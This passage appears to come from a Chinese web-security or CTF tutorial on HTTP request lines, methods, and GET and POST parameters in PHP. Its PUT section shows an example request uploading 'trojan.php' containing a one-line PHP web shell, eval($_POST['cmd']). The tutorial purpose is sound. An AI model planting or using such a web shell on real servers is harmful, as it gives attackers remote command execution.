 ##### 1、请求行

请求行：请求行是由请求方法字段、url字段、http协议版本字段3个部分组成。请求行定义了本次请求的方式，格式如下：`GET/example.html HTTP/1.1(CRLF)`

请求方法有如下几种：

1. GET： 请求获取Request-URI所标识的资源
2. POST： 在Request-URI所标识的资源后增加新的数据
3. HEAD： 请求获取由Request-URI所标识的资源的响应消息报头
4. PUT： 请求服务器存储或修改一个资源，并用Request-URI作为其标识
5. DELETE： 请求服务器删除Request-URI所标识的资源
6. TRACE： 请求服务器回送收到的请求信息，主要用于测试或诊断
7. CONNECT： 保留将来使用
8. OPTIONS： 请求查询服务器的性能，或者查询与资源相关的选项和需求

其中在Web安全中常用的方法为GET和POST，他们通常与编程语言结合，用来传递某些参数，例如在php中：

```
$a = $_GET['a'];
$b = $_POST['b'];
```

就代表通过get请求对变量a进行传值，通过post请求给变量b传值。

GET请求一般写在url中，例如：

```
http://www.example.com/?a=123
```

由`?`引出需要传递的变量，接着对其赋值，若需要多个变量同时赋值，则需要使用`&`，例如：

```
http://www.example.com/?a=123&b=456
```

除此之外，post传递参数写在请求体中，并且省略问号，直接写`a=123`；

另外PUT方法在某些时候可以用于上传恶意代码，这是因为PUT可以直接将请求体中的以文件形式上传，如：

```
PUT example.com/trojan.php HTTP/1.1
Host:................
...........

<?php
 eval($_POST['cmd']);
?>
```

这样trojan.php就会被创建并且会含有请求体里面的内容，如果Trojan已经存在就会被修改。

当然并不是所有服务器都会允许这些请求方法，通常只有GET、POST被允许，如果我们不知道那些方法被允许，可以使用OPTIONS查看相应头中的Allow的值，这里面包含了服务器允许的请求方式。

另外，由于http请求头是以文本形式发送，有些服务器可以接受特殊的自定义方法，如MoeCTF曾要求选手使用不存在的IS方法对服务器进行请求。

##### 2、请求头

请求头：也被称作消息报头,请求头是由一些键值对组成，每行一对，关键字和值用英文冒号`:`分隔。允许客户端向服务器发送一些附加信息或者客户端自身的信息，典型的请求头如下:

> MIME(Multipurpose Internet Mail Extensions)多用途互联网邮件扩展类型。是设定某种扩展名的文件用一种应用程序来打开的方式类型，当该扩展名文件被访问的时候，浏览器会自动使用指定应用程序来打开。多用于指定一些客户端自定义的文件名，以及一些媒体文件打开方式。

